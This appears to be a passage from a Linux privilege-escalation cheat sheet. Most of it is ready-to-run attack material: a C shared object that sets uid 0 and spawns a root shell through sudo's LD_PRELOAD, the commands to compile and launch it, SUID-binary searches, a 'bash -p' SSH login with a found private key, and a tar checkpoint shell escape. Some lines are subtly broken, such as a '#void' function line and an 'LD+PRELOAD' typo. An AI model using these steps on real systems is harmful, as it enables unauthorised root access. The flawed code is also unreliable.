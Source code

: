 Execute allowed sudo binary for a user other than ``root`` user:

```
# sudo -u <USERNAME> <BINARY>
```

Sudo ``LD_PRELOAD`` Privilege Escalation:

```
# sudo -l 
```

If somehow ``env_keep+=LD+PRELOAD`` is in the output, simply create a ``C`` file with following content ``shell.c``:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

Then, hit:

```
# gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the exploit:

```
# sudo LD_PRELOAD=/home/<USER>/shell.so apache2
```

Check SUID allowed binaries:

```
# find / -perm -u=s -type f 2>/dev/null

or 

# find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

If ``/bin/bash`` binary has SUID bit set and if you can find a private SSH key, you can login with it:

```
# ssh -i id_rsa <USER>@<RHOST> bash -p
```

``tar`` SUID:

```
# sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
